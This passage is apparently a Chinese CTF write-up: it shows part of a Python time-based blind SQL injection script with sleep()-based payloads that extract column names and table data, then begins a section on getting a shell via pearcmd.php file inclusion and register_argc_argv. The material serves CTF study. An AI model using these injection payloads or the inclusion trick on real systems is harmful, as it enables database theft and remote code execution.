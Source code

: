 ```python
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/"items"),{i},1))>{j}),sleep(3),0)' # id,name,price
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(price)/**/from/**/ctf.items),{i},1))>{j}),sleep(3),0)'
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(id,0x3a,name,0x3a,price)/**/from/**/ctf.items),{i},1))>{j}),sleep(3),0)'
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(name)/**/from/**/ctf.items),{i},1))>{j}),sleep(4),0)'
        url = url + payload
        # print(url)
        try:
            response = requests.get(url=url, timeout=4)
        except Exception as e:
            last = res
            # print(chr(j+1))
            res += chr(j + 1)
            # print(res)
            break
    print('[*] ' + res)
```

暂时拿wp的脚本过一下，自己的脚本不知道为什么输出不了

# WEEK3

## include

先看看phpinfo有什么吧

![image-20231207114106753](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207114106753.png)

让我们看看register_argc_argv

![image-20231207114146768](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207114146768.png)

这里就要学习一下新的绕过姿势：包含pearcmd.php文件进行rce

### 关于pearcmd.php的文件包含

pear是php扩展和应用仓库，docker中默认安装，默认路径为/usr/local/lib/php。攻击者可以通过可控的`argv`参数上传恶意脚本，并包含pearcmd.php文件来达到getshell的目的

### 本地调试

由于docker的配置问题，所以只能在kali上面咯

先看看phpinfo

![image-20231207150643706](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231207150643706.png)
